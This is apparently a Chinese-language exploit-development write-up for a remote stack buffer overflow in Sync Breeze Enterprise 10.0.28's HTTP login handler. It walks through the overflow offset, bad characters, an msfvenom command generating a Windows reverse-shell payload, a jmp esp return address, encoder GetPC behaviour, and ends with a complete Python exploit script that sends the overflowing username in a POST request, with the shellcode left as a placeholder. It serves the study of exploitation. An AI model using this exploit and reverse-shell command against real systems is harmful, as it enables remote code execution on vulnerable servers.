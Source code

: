 ```yaml
---
layout: default
---
```


# Sync Breeze Enterprise 10.0.28 栈溢出漏洞分析
## 1.确定溢出位置


> syncbrs.exe 使用http post进行登录请求时未判断username长度进行字符串拷贝操作,从而导致栈溢出.

>  1.1: 分配了30CH的栈空间用于存储数据，然后使用EAX将栈空间地址传递给解析函数.

![在这里插入图片描述](./Sync_Breeze_Enterprise_10.0.28_Remote_Buffer_Overflow_res/46203376cde14417b64e965ff0f9adce.jpeg#pic_center)

>  1.2： 调用libpal.dll中的GetField解析参数取出username并复制到指定栈地址空间上.(**此处产生溢出**)

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/bc8f65b6f09e43f29c436e4cc109e981.jpeg#pic_center)
 ## 2. 生成shellcode
 

	大概流程如下:
```c
2.1 根据上面分析其实己经得知分配的栈空间=30CH. (shellcode前填充字节数己确定)
2.2 确定一下bad characters: \x00\x0a\x0d\x25\x26\x2b\x3d
2.3 使用msfvenom 生成shellcode:
-----------------------------------
msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```


## 3. 查找一个jmp esp地址

> 大概流程如下:

```c
3.1 找到所有载入模块
3.2 遍历每一个模块IMAGE_OPTIONAL_HEADER中DllCharacteristics不能使用ASLR
3.3 查找是否包含jmp esp的opcode: FFE4
3.4 找到的地址是否包含bad characters,如果包含则不能使用
----------------------------------
libspp.dll 0x10090c83地址符合所有条件.
```
## 4.注入

> <font color=red>注意:</font> 
>	生成shellcode为了不使用bad characters而使用了编码,那自然需要解码.
>而解码代码需要知道需要解码的代码所在地址,这里需要使用到GetPC.
>
解码代码如下:
```c
mov 	edi,46BD1770h
fcmovu 	st,st(6)		
fnstenv	[esp-0Ch]		;保存fpu环境
pop 	esi				;得到fcmovu这条指令执行的地址
sub 	ecx,ecx
mov 	cl,52h
xor 	dword ptr [esi+12h],edi
sub		esi,0FFFFFFFCh
....
```
> fnstenv指令会将以下的结构体数据保存在堆栈上: 
> 其中FIP保存了上一条FPU指令的地址,本例中为:fcmovu
> ![在这里插入图片描述](./Sync_Breeze_Enterprise_10.0.28_Remote_Buffer_Overflow_res/6b2d00fc049c478e8cbf1f785c236789.jpeg#pic_center)

> 既然fnstenv会使用栈空间,那么可能会对注入的shellcode产生影响.
> 所以这里需要对内存进行一些处理,这里使用nop.![在这里插入图片描述](./Sync_Breeze_Enterprise_10.0.28_Remote_Buffer_Overflow_res/a231719354df475dac26345dfb3b7eec.jpeg#pic_center)
> 
> <font color=red>栈空间加了12个nop来处理,虽然01aa7468地址处的数据还是被覆盖了,但是这里的代码己经执行过了,所以不会有影响</font>

## 5.总结

```c
主要是注意一下生成的shellcode使用的GetPC是哪种方式,注意栈空间是否会被破坏. 
```

## 注入代码参考

```python
#!/usr/bin/python
import socket
import sys

try:
  server = sys.argv[1]
  port = 80
  filler = b"A" * 780
  eip = b"\x83\x0c\x09\x10" #0x10090c83  
  offset = b"C" * 4
  nops = b"\x90" * 12
  shellcode = b"........................."

  shellcode+= b"D" * (1500 - len(filler) - len(eip) - len(offset) - len(shellcode))
  inputBuffer = filler + eip + offset + nops + shellcode
  content = b"username=" + inputBuffer + b"&password=A"

  buffer = b"POST /login HTTP/1.1\r\n"
  buffer += b"Host: " + server.encode() + b"\r\n"
  buffer += b"User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
  buffer += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
  buffer += b"Accept-Language: en-US,en;q=0.5\r\n"
  buffer += b"Referer: http://10.11.0.22/login\r\n"
  buffer += b"Connection: close\r\n"
  buffer += b"Content-Type: application/x-www-form-urlencoded\r\n"
  buffer += b"Content-Length: "+ str(len(content)).encode() + b"\r\n"
  buffer += b"\r\n"
  buffer += content

  print("Sending evil buffer...")
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((server, port))
  s.send(buffer)
  s.close()
  
  print("Done!")
  
except socket.error:
  print("Could not connect!")

```
